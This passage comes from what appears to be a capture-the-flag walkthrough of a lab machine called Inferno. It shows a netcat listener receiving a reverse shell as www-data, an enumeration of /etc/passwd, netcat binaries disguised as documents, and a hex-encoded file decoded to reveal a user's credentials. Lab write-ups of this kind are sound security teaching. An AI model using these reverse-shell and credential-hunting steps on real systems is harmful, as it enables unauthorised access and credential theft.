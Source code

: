 Having set up the listeners, we continue the exploit and the reverse shell connects to the listener on 81 : 

```console
┌──(kali㉿kali)-[~]
└─$ nc -lnvp 81
listening on [any] 81 ...
connect to [ATTACK-IP] from (UNKNOWN) [10.10.154.171] 41826
www-data@Inferno:/var/www/html/inferno/components/filemanager$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

After a minute or so our shell session disconnects and this happens every time we attempt the exploit. Immediately switching to a `sh` shell prevents this from happening - there is presumably some script on the box that is periodically killing bash sessions.

## 4. Privesc, www-data -> dante - credential discovery

Catting `/etc/passwd` reveals 1 non-system / non-root user dante, and navigating to `/home/dante` we find a large number of files in `./Downloads`, `./Desktop` and `./Documents` named after cantos and characters from the Divine Comedy : 

```console
ls -la ./Documents
total 464
drwxr-xr-x  2 root  root    4096 Jan 11  2021 .
drwxr-xr-x 13 dante dante   4096 Jan 11  2021 ..
-rwxr-xr-x  1 root  root   35312 Jan 11  2021 beatrice.doc
-rwxr-xr-x  1 root  root   63704 Jan 11  2021 caronte.doc
-rwxr-xr-x  1 root  root  133792 Jan 11  2021 centauro.doc
...snip...
```

On closer inspection, these are not documents but system utilities - `/home/dante/Documents/beatrice.doc` is netcat, for example :

```console
./Documents/beatrice.doc --version
./Documents/beatrice.doc: invalid option -- '-'
usage: nc [-46CDdFhklNnrStUuvZz] [-I length] [-i interval] [-M ttl]
          [-m minttl] [-O length] [-P proxy_username] [-p source_port]
          [-q seconds] [-s source] [-T keyword] [-V rtable] [-W recvlimit] [-w timeout]
          [-X proxy_protocol] [-x proxy_address[:port]]           [destination] [port]
```

In `/home/dante/Downloads` we find a file `download.dat` that contains a string of hex characters (everything goes a bit CTF here). Decoding the file with `xxd -p -r` reveals another canto of the Divine Comedy alongside a credential pair for the dante user : 

```console
┌──(kali㉿kali)-[~/Documents/tthm/inferno]
└─$ cat .download.dat| xxd -p -r
Or se’ tu quel Virgilio e quella fonte
che spandi di parlar sì largo fiume?»,

...snip...

Vedi la bestia per cu’ io mi volsi;
aiutami da lei, famoso saggio,
ch’ella mi fa tremar le vene e i polsi».

dante:PASSWORD
```
